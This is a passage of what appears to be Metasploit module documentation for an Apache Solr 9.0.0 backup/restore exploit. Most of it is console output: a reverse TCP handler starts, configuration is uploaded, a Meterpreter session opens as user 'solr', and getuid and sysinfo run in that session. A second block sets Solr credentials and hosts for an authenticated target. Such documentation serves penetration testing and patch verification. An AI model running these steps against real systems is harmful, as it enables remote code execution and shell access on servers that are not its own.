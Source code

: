 ```

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/apache_solr_backup_restore) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Running check method
[*] 127.0.0.1:8983: Authentication not required
[*] Found Apache Solr 9.0.0
[*] OS version is Linux amd64 6.6.16-linuxkit
[+] The target appears to be vulnerable. Found Apache Solr version: 9.0.0
[+] Uploaded configuration successfully
[+] Backed up collection successfully
[+] Backed up collection successfully
[+] Uploaded configuration successfully
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 12 opened (172.16.199.1:4444 -> 172.16.199.1:50057) at 2024-04-01 16:18:17 -0700
[*] Cleaning up...

meterpreter > getuid
Server username: solr
meterpreter > sysinfo
Computer     : 192.168.128.2
OS           : Ubuntu 20.04 (Linux 6.6.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Apache Solr 9.0.0 with Authentication
```
msf6 exploit(linux/http/apache_solr_backup_restore) > set password SolrRocks
password => SolrRocks
msf6 exploit(linux/http/apache_solr_backup_restore) > set username solr
username => solr
msf6 exploit(linux/http/apache_solr_backup_restore) > set rhost 172.16.199.132
rhost => 172.16.199.132
msf6 exploit(linux/http/apache_solr_backup_restore) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/apache_solr_backup_restore) > options

Module options (exploit/linux/http/apache_solr_backup_restore):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   SolrRocks        no        Solr password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.132   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                         ml
   RPORT      8983             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  solr             no        Path to Solr
```